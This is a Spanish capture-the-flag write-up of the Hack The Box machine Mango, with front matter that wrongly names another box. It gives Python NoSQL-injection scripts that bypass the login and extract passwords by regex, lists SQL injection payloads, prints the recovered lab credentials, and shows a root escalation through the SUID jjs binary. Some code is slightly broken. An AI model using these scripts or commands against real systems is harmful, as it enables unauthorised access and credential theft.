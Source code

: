 
---
layout: single
title: Devzat - Hack The Box
excerpt: "Aqui explotamos un repo de Github y una aplicacion personalizada"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-devzat/devzat1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - binary exploit  
---

# 10.10.10.162 - Mango

![](/assets/images/htb-mango/mango1.png)

----------------------

Puertos abiertos: 22(ssh), 80(http), 443(https)

```console
└─$ openssl s_client -connect 10.10.10.162:443
staging-order.mango.htb, emailAddress = admin@mango.htb
└─$ whatweb http://10.10.10.162
[403 Forbidden] Apache[2.4.29], HTTPServer[Ubuntu Linux]
└─$ whatweb https://10.10.10.162
[200 OK] Apache[2.4.29], Bootstrap, Title[Mango | Search Base]
```
La web solo tiene un enlace funcional a /analytics.php, donde funciona solo al poner la ip (no mango.htb)
Hay una tabla de datos que podemos descargar al darle a "save". Aun así tampoco pude hacer mucho con eso.

![](/assets/images/htb-mango/mango2.PNG)

En el panel de login se manda:
```/POST a http://staging-order.mango.htb/ username=test&password=test&login=login PHPSESSID:"4h9rnhfsteketion8qoom89evt"```
![](/assets/images/htb-mango/mango3.PNG)

Al ser un panel de login podemos hacer cuatro cosas:  
- Inyeccion SQL con payloads del tipo ```' or 1=1-- -``` ```' or sleep(5)-- -``` (...OR por AND y ' por "")  
- Inyeccion Type Jugling (PHP) -> "password=true"  
- Fuzzing de posibles contraseñas  
- NoSQlInyection -> contraseña[$ne]=test "La contraseña no es "test".  

Como estamos ante una web que maneja bases de datos (por lo que vimos en analytics) sera SQL o no SQL. La manera de probar el mirando el content lenght 
(El de la respuesta mala es 4022, es decir redireccion a la misma ruta) Todos los payloads sql fallan pero no NoSQL

```python
#!/usr/bin/python3

import requests
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
data = {"username":"admin","password[$ne]":"test","login":"login"}
req2 = requests.post(url, data=data, headers=headers)
print(len(req2.text))
```

Aun así entrar nos devuelve este mensaje  "Todavía se están plantando (los mangos). Perdon por la inconveniencia, pero acabamos de emepezar la granja"  
Hay inyecciones NoSQL especiales que nos pueden ayudar a obtener información:  

```python
import requests, string

caracteres = string.ascii_lowercase + "_"
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
nombre = ""
for character in caracteres:
    data = {"username[$regex]":"^" + character + ".*","password[$ne]":"test","login":"login"}
    req2 = requests.post(url, data=data, headers=headers)
    if len(req2.text) < 4022:
        print(character)
```
Conseguimos "a" y "m"  

```python3
nombre = "a"
for i in range(20):
    for character in caracteres:
        data = {"username[$regex]":"^" + nombre + character + ".*","password[$ne]":"test","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            nombre += character
            print(nombre)
```
Sale "admin", para el segundo (el que empieza por "m"), pongo ```nombre = "m"```  
No hay mas nombres por la "a", pero si los hubier se pondría ```caracteres = string.ascii_lowercase.strip("d")```  
para sacar la segunda letra (y que no fuera "d").  

```python
caracteres = string.printable
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
contraseña = ""
while True:
    for character in caracteres:
        data = {"username":"admin","password[$regex]":"^" + contraseña + re.escape(character) + ".*","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            contraseña += character
			print(contraseña)
```
Creds -> admin:t9KcS3>!0B#2, mango:h3mXK8RhU~f{]f5H  

Con estas contraseñas podemos acceder por ssh con mango ```ssh mango@10.10.10.162```
- SUIDS: /usr/bin/run-mailcap, /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs  
- PUERTOS: 127.0.0.1:27017   

En [Gtfo-bins](https://gtfobins.github.io/gtfobins) hay entradas para ambos binarios, pero solo jjs tiene SUID.  
El comando es este (ej con "whoami") y se ejecutará en contenxto privilegiado.  
```echo "Java.type('java.lang.Runtime').getRuntime().exec('whoami').waitFor()" | /jss```  
El asunto esque la shell que nos proponen ```/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)```  
se queda atascada, asi que la solución sería el comando de hacer SUID a la bash ```chmod u+s /bin/bash```  
```console
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | /jss
admin@mango:/home/mango$ bash -p
bash-4.4# whoami
root
```
Aunque tenemos que leer la flag rapidamente porque no se porque hay ocasiones en que me bajan los privilegios.  

jjs sirve para invocar el motor "Nashorn", pero dicen que tanto el comando como el motor lo eliminarán en futuras versiones de java.
Java tira de motores y entornos virtuales para funcionar, es un lenguaje un tanto extraño.  